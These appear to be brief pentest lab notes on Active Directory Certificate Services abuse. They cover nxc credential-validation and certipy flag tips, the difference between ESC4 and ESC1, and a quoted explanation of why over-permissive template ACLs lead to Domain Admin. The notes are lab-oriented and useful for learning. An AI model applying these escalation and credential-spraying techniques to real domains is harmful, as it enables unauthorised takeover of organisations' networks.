- Use `--continue-on-success` when validating credentials on lots of users with nxc
- Play with flags to specify target when using certipy and seeing DNS errors
	- -target
	- -taget-ip
	- -target-dc
- ESC4 is a permission abuse, ESC1 is a vulnerable template abuse

Why would this Full Control permission over a template exist in real world?

"**It's a genuine misconfiguration (the common real-world case).** In real environments, template ACLs are _notoriously_ over-permissive because admins don't understand them. Someone sets up AD CS, needs a group to be able to manage or enroll certificates, and grants that group broad rights (`Write`, `FullControl`) over templates "so they can do their job" — without realizing that write access to a template config is a domain-escalation primitive. This is _exactly_ the same pattern as the WebServer enrollment rights from TombWatcher: a permission that looks administratively reasonable ("the cert team can manage cert templates") is secretly a path to Domain Admin, because ESC4 wasn't a known attack class until SpecterOps named it in 2021. For twenty years, "give the PKI group write access to templates" looked completely fine. ESC4 revealed it wasn't. So a group like Cert Publishers (or a custom cert-admin group) having write over a template is a _realistic misconfiguration_ that real pentests find constantly."  -  Claude Opus 4.8

##### Sources
- ESC1 abuse docs: https://www.hackingarticles.in/ad-certificate-exploitation-esc1/
- IppSec Walkthrough: https://www.youtube.com/watch?v=fE6BYs4P1t4
